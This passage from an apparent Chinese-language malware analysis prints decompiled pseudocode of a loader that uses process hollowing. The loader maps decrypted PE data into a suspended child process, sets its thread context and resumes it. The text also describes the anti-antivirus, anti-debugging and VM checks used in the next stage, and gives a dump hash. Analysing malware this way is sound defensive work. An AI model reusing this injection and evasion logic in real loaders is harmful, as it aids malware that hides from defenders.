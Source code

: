 ```php
  if ( !NtMapViewOfSectionFunc(a2, v26, -1, (int)&v28, sizeOfImage_1) )// 映射Section NtMapViewOfSection
    goto LABEL_13;
  SizeOfHeaders = *(_DWORD *)(NT_HEADER + 52);
  if ( !NtMapViewOfSectionFunc(a2, v26, v23, (int)&SizeOfHeaders, sizeOfImage_1) )
    goto LABEL_13;
  memcpyFunc((_BYTE *)DOS_HEADER, v28, *(_DWORD *)(NT_HEADER + 84));
  sizeOfImage_1 = 0;
  if ( *(_WORD *)(NT_HEADER + 6) )              // PE
  {
    PointerToRatData = (_DWORD *)(sectionment + 0x14);
    for ( sectionment += 0x14; ; PointerToRatData = (_DWORD *)sectionment )
    {
      memcpyFunc((_BYTE *)(DOS_HEADER + *PointerToRatData), v28 + *(PointerToRatData - 2), *(PointerToRatData - 1));
      NT_HEADER1 = *(unsigned __int16 *)(NT_HEADER + 6);
      ++sizeOfImage_1;
      sectionment += 40;
      if ( sizeOfImage_1 >= NT_HEADER1 )
        break;
    }
  }
  v27 = 0;
  if ( !j_NtCreateSectionFunc(a2, (int)&v27, 0x1000)
    || (v22 = 0,
        !NtMapViewOfSectionFunc(a2, v27, v23, (int)&v22, 4096)
     || (v18 = 0, !NtMapViewOfSectionFunc(a2, v27, -1, (int)&v18, 4096))) )
  {
LABEL_13:
    (*(void (**)(void))(a2 + 0xA4))();          // TerminateProcess
    return 0;
  }
  lpContext = targetAddr2;
  targetAddr2[0x2C] = ImageBase + *(_DWORD *)(NT_HEADER + 40);
  (*(void (__stdcall **)(int, _DWORD *))(a2 + 0x84))(hThread, lpContext);// SetThreadContext
  (*(void (__cdecl **)(int, _DWORD))(a2 + 0x98))(hThread, 0);// ZwResumeThread
  if ( a5 )
    sub_487EF6(a2, v25);
  return 1;
}
```

至此，程序的第一个阶段执行完成，此时的子进程所执行的实际上是上述被解密出的PE 数据，所以我们将这段数据dump 出并进行分析。

| 文件名称 | MD5 |
|---|---|
| dump.bin | c006bf6b9e1fc1fc9f7d8206c94ef424 |

有趣的是，这里所使用的执行逻辑包括shellcode 代码与第一阶段的方式相似度极高，同样是通过创建进程快照检测杀毒程序进程是否存在，检测进程是否处于被调试状态，检测虚拟机，并且在将资源加载到内存后以同样的两次解密得到下一阶段所使用的PE 格式数据，在创建并挂起子进程后进行进程替换实现下一阶段的开始。

![c.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4bcf7634d0640c2be64c2ffa68c0daa91da0b1ae.png)
